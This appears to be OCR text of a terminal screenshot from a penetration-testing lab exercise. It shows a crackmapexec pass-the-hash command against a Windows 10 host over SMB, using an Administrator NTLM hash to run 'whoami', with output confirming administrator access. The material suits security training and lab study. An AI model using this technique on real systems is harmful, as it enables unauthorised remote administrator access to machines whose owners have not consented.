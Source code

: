 crackmapexec smb 10.129.31.105 -u Administrator -d . -H bac9dc5b7b4bec1d83e0e9c04b477f26 -x whoami

[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing WINRM protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing SSH protocol database
[*] Initializing SMB protocol database
[*] Copying default configuration file
[*] Generating SSL certificate
SMB         10.129.31.105   445    PILLAGING-WIN01  [*] Windows 10 Pro 19043 x64 (name:PILLAGING-WIN01) (domain:.) (signing:False) (SMBv1:True)
SMB         10.129.31.105   445    PILLAGING-WIN01  [+] .\Administrator:bac9dc5b7b4bec1d83e0e9c04b477f26 (Pwn3d!)
SMB         10.129.31.105   445    PILLAGING-WIN01  [+] Executed command 
SMB         10.129.31.105   445    PILLAGING-WIN01  pillaging-win01\administrator
